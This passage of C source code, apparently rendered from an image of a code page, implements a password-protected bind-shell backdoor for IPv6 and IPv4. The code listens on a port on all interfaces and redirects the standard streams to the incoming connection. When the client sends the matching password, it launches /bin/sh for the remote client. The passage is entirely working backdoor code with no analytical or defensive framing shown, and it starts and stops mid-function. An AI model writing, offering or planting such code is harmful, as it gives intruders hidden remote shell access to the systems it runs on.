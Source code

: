 ```c
    addr.sin6_addr = in6addr_any;

    int sockfd = socket(AF_INET6, SOCK_STREAM, 0);

    const static int optval = 1;

    setsockopt(sockfd, IPPROTO_IPV6, IPV6_V6ONLY, &optval, sizeof(optval));

    setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &optval, sizeof(optval));

    bind(sockfd, (struct sockaddr*) &addr, sizeof(addr));

    listen(sockfd, 0);

    int new_sockfd = accept(sockfd, NULL, NULL);

    for (int count = 0; count < 3; count++)
    {
        dup2(new_sockfd, count);
    }

    char input[30];

    read(new_sockfd, input, sizeof(input));
    input[strcspn(input, "\n")] = 0;
    if (strcmp(input, PASS) == 0)
    {
        execve("/bin/sh", NULL, NULL);
        close(sockfd);
    }
    else 
    {
        shutdown(new_sockfd, SHUT_RDWR);
        close(sockfd);
    }
    
}

int ipv4_bind (void)
{
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(LOC_PORT);
    addr.sin_addr.s_addr = INADDR_ANY;

    int sockfd = socket(AF_INET, SOCK_STREAM, 0);

    const static int optval = 1;

    setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &optval, sizeof(optval));

    bind(sockfd, (struct sockaddr*) &addr, sizeof(addr));

    listen(sockfd, 0);

    int new_sockfd = accept(sockfd, NULL, NULL);

    for (int count = 0; count < 3; count++)
    {
        dup2(new_sockfd, count);
    }

    char input[30];
```